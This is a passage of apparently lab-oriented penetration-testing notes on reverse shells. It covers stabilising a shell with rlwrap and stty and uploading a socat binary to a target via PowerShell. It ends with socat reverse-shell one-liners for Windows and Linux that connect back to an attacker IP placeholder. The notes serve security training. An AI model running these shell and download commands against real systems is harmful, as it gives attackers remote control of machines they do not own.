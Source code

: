 rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use this, we set up a different listener.
`rlwrap nc -lvnp <port>`

This gives us a more fully featured shell. It is good for use with windows reverse shells.

We can then fully stabilize it using Ctrl + Z, then use `stty raw -echo; fg` if it is a linux machine.

##### 3). Socat
Note that this is limited to linux targets only.

To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.

We can do this using a simple htttp server.

On windows, we can do this using pwershell.
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

##### Setting Terminal Size
If you wantto check your machine conifugration for terminal rows and columns ;
```
stty -a
```
To set the terminal rows and columns;
```
// setting rows
stty rows <NUMBER>

// setting columns
stty cols <NUMBER>
```

#### Socat
##### Reverse shells


__Listener__:
```
// linux
socat TCP-L:PORT -
```

```
Reverse shell
// windows
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

// linux
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
